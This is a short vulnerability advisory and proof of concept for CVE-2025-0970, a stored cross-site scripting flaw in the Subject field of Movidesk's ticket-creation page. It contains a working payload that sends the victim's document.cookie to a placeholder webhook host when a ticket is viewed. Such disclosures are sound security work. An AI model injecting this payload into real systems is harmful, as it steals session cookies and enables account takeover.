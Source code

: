 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

### Affected Version
< 25.01.22

## POC

This vulnerability resides in the /Ticket/Create page in Subject parameter,
Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`
Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Ticket/Create

### Detail

FOR THIS EXPLOIT, YOU HAVE TO BE AUTHENTICATED!

## Reference

https://www.movidesk.com/